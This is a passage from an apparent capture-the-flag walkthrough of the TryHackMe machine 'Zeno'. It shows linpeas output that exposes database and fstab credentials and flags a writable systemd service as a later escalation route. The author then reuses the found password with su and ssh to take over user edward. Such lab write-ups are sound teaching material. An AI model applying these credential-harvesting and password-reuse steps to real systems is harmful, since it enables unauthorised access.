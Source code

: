 The linpeas result shows a few interesting things. The first one is the password for the database:

~~~
╔══════════╣ Searching passwords in config PHP files
    define('DB_DATABASE', 'rms');
    define('DB_PASSWORD', '');
    define('DB_USER', 'root');
    define('DB_DATABASE', 'dbrms');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_USER', 'root');
~~~

The second one is that we have write access to `etc/systemd/system/zeno-monitoring.service` which might come in handy later. The third one is the we found creds in `/etc/fstab` for a share named `secret-share`:

~~~
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/zeno-monitoring.service

═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No
═╣ Credentials in fstab/mtab? ........... /etc/fstab:#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft	0 0
═╣ Can I read shadow files? ............. No                                                                                                 ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ 
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No
~~~

We have one user on the machine named `edward`. First I tried the database password for the user and root, but it didn't work for neither of them. Fortunately the password found in `/etc/fstab` was valid for user `edward`:

~~~
sh-4.2$ su edward
Password: FrobjoodAdkoonceanJa
[edward@zeno secret-share]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
~~~

Now we can connect to the machine via ssh using the creds we have: `edward:FrobjoodAdkoonceanJa`

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Zeno/files]
└─$ ssh edward@$IP
edward@10.10.46.147's password: 
Last login: Mon Nov  8 10:55:00 2021
[edward@zeno ~]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
~~~
